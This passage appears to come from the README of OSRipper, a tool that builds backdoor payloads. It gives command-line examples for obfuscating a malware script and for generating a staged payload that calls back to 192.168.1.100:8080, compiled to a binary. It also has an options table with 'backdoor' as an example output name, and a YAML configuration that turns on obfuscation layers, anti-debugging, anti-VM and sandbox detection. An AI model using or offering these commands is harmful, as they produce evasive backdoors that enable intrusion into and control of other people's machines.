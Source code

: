 #### Custom Script Encryption
```bash
python3 cli.py custom --script malware.py --obfuscate
```

#### Staged Payload
```bash
python3 cli.py staged -h 192.168.1.100 -p 8080 --compile
```

### Global Options

| Option | Description | Example |
|--------|-------------|---------|
| `--output` | Output filename | `--output backdoor` |
| `--obfuscate` | Enable obfuscation | `--obfuscate` |
| `--compile` | Compile to binary | `--compile` |
| `--icon` | Custom icon file | `--icon app.ico` |
| `--quiet` | Minimal output | `--quiet` |
| `--config` | Configuration file | `--config custom.yml` |

## Configuration

OSRipper supports YAML and JSON configuration files for customizing behavior.

### Creating Configuration

```bash
python3 config.py --create-sample
```

This creates `osripper.yml` with default settings.

### Configuration Structure

```yaml
general:
  output_dir: "dist"
  log_level: "INFO"
  auto_cleanup: true

payload:
  default_name: "payload"
  auto_obfuscate: true
  obfuscation_layers: 5
  anti_debug: true
  anti_vm: true

network:
  default_port_range: [4444, 8888]
  use_ssl: true
  connection_timeout: 30

compilation:
  auto_compile: false
  compiler: "nuitka"
  optimization_level: 2

evasion:
  sandbox_detection: true
  vm_detection: true
```